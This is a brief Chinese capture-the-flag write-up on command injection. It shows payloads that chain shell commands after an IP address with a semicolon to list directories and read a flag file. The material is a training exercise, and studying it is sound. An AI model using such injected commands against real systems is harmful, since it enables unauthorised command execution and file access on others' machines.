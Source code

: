 知识点：

1. 命令执行

2.  ;管道符的使用



1. paylaod:

```javascript
127.0.0.1;ls
```



![](images/24DBC0E71F304B87938E6F709220080Eclipboard.png)

确定存在命令执行



2. 寻找flag

```javascript
127.0.0.1;cd ..;cd ..;cd ..;ls
```



![](images/342759AEBC2A4982B0901B3BBE71254Bclipboard.png)



payload:

```javascript
127.0.0.1;cd ..;cd ..;cd ..;cat flag
```



也可以：

```javascript
127.0.0.1;cd ..;cat ../../../../flag
```

